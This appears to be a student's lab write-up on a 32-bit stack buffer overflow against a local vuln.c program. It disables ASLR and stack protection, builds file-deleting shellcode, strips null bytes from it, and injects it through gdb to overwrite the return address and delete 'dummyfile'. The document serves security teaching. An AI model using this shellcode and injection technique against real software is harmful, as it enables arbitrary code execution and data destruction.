 # DELETE DUMMYFILE USING INJECTION CODE

## Target

- Delete `dummyfile` file by using `buffer overflow` to `inject code` into `vuln.c` file

## Prepare for lab

- Create `dummyfile` without format using:

  > touch dummyfile

![Ảnh chụp màn hình 2024-09-17 094329](https://github.com/user-attachments/assets/00df81ee-674f-478c-9c09-b34c62a215da)

- Change to shell `/bin/sh`

  > sudo ln -sf /bin/zsh /bin/sh

- Turn off OS’s address space layout randomization:

  > sudo sysctl -w kernel.randomize_va_space=0

![Ảnh chụp màn hình 2024-09-17 095310](https://github.com/user-attachments/assets/6e5b58a3-7ac7-4870-806b-499b9a2bf658)

- Compile and link the file_del.asm code using 2 commands:

  > nasm -g -f elf file_del.asm

  > ld -m elf_i386 -o file_del file_del.o

![Ảnh chụp màn hình 2024-09-17 100229](https://github.com/user-attachments/assets/a3ea15ac-5d75-498e-8adc-7f0eac6cf64c)

- Hexstring of my `file_del.asm` using:

  > for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

![Ảnh chụp màn hình 2024-09-17 101643](https://github.com/user-attachments/assets/aeaa04d3-fe70-4da8-8d99-e1e752bc17af)

- But we don't need `\xdummyfile` at the end, so we have:

  > \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

- Stack frame of `vuln.c`.

![Ảnh chụp màn hình 2024-09-17 103054](https://github.com/user-attachments/assets/4a0f9a06-5b08-4eb1-96bd-87167d56176b)

- Compile the `vuln.c` program using:
  > gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

## execution.

- I will set two breakpoint at `0x804843e` and `0x804846b`.

![Ảnh chụp màn hình 2024-09-17 103936](https://github.com/user-attachments/assets/64e07722-d58e-4ea7-ad9e-65b00fa7b487)

- If we want to execute the `file_del.asm` code on stack, we need to overflow the buffer so that `return address` points to the top of `esp` where the code will lies. It will be `36 bytes of hexstring + 32 padding bytes + 4 bytes of esp`. I will use `\xff\xff\xff\xff` to identify `ebp`, use command:

> r $(python –c “print(‘\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00’ + ‘a’\*32 + ‘\xff\xff\xff\xff)”)

![Ảnh chụp màn hình 2024-09-17 105402](https://github.com/user-attachments/assets/6268b9b7-4d87-45c3-b217-995e4fef445a)

- The red address is `ebp`.
- The green address is `Return Address`.
- We `continue`

![Ảnh chụp màn hình 2024-09-17 105952](https://github.com/user-attachments/assets/a5373985-2e18-4c68-843f-585c41af45aa)

- Comparing to the hexstring, the first 3 values are the same buf after that everything is different and `Return Address` is not `\xff\xff\xff\xff`.

  - We have `\x0a(/n)` in the hexstring.
  - `\x00` have problem in 32 bits register `eax`.

![Ảnh chụp màn hình 2024-09-17 110946](https://github.com/user-attachments/assets/3e26783d-ccda-4009-b1b2-d019b622a806)

- In the `file_del.asm`:

![Ảnh chụp màn hình 2024-09-17 204933](https://github.com/user-attachments/assets/fcc6436d-d366-4d84-8e9e-5d1ed44220ea)

- The `\x0a` comes from the line `move eax, 10`.
- The `\x00` comes from `eax`. Because `eax` is 32 bits register so when we move a small value into `eax`, the high bits of this register (24 bits) will automatically be filled with `0`.

- We need to edit a few lines of code in `file_del.asm`:

  - Use `al` register. Because this is the lowest 8-bit part of the `eax` register. When you move a value into `al`, only 8-bits (1 byte) are changed, not affecting the rest of `eax`.
  - Clear the `eax` register using command:
    > xor eax, eax
  - Replace `move eax, 10` with:

    > mov al, 8

    > add al, 2

![Ảnh chụp màn hình 2024-09-17 210413](https://github.com/user-attachments/assets/dd513035-9961-4431-9ff3-d97058b5a69e)

- We recompile `file_del.asm`, get the new hexstring and run the program.

  - The new hexstring is `\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

![Ảnh chụp màn hình 2024-09-17 211047](https://github.com/user-attachments/assets/25e5e582-d0e9-46cd-bcd7-3b12301ee1ba)

- At the end still `\x00`, I will change it to `\x01`. Now, the `Return Address` is `\xff\xff\xff\xff`.

![Ảnh chụp màn hình 2024-09-17 212405](https://github.com/user-attachments/assets/f503a561-6b50-4dae-81db-8775db9cf862)

- We will change the address `0xffffd63c`(the first `\xff`) to the address of `esp` `0xffffd5f8`, set the address `0xffffd61b` to `\x00` and `continue`.

![Ảnh chụp màn hình 2024-09-17 213453](https://github.com/user-attachments/assets/bbcbd0b3-3536-4ce7-90c5-65ad742153a6)

![Ảnh chụp màn hình 2024-09-17 213630](https://github.com/user-attachments/assets/52a4c003-22b6-4a62-9a7c-a0dc910f8efa)

- But dummyfile has not been deleted yet!

- Look at `file_del`.

![Ảnh chụp màn hình 2024-09-17 215849](https://github.com/user-attachments/assets/aaf9510a-dc9a-4258-a43f-6a148d0d8c86)

- `dummyfile` is stored at address `0x0804807a` including bytes `64 75 6d 6d 79 66 69 6c 65 00`. The command `mov ebx,_filename` causes the `ebx` register to `point to the address of _filename` here which is `0x0804807a`. What we just "deleted" is to make the `ebx` register `no longer point to the address of _filename`, not delete the `dummyfile`. So we need to `set the address of dummyfile in the program to the address of ebx`.

![Ảnh chụp màn hình 2024-09-17 221609](https://github.com/user-attachments/assets/4c83892e-f4e6-4b6d-b187-9881b9c2b4aa)

![Ảnh chụp màn hình 2024-09-17 221857](https://github.com/user-attachments/assets/a684d448-36f1-4e3a-a3b6-24bc7c2ef6fd)

- `dummyfile` has been deleted. The lab is done.
